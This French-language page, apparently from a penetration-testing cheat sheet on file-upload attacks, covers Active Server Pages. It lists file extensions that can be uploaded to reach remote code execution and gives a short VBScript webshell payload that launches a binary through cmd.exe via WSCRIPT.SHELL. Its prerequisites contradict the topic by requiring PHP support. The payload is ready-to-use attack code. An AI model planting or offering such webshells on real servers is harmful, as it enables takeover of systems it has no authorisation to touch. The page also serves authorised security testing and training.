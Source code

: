 # Active Server Pages

<img src="logo-asp.png" title="" alt="" height="200">

**Facteur de risque** : RCE via webshell

**Extension** : `.asp`, `.aspx`, `.cer`, `.asa`, `.cshtml`, `.vbhtml`

**Description** : **Active Server Pages** est une solution Microsoft de langage de script côté serveur, qui fonctionne avec VBScript et JScript.  Elle a été remplacé par **ASP.NET** en 2002.

## Sommaire

- RCE

## RCE

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé

- Le serveur supporte le PHP

### Payload

```visual-basic
<%
Dim oS
On Error Resume Next
Set oS = Server.CreateObject("WSCRIPT.SHELL")
Call oS.Run("win.com cmd.exe /c c:\Inetpub\shell443.exe",0,True)
%>
```

## References

- Web shells in PHP, ASP, JSP, Perl, and ColdFusion : http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Webshells%20In%20PHP,%20ASP,%20JSP,%20Perl,%20And%20ColdFusion.pdf
- [Webshell &#xB7; Total OSCP Guide](https://sushant747.gitbooks.io/total-oscp-guide/content/webshell.html)

## Todo
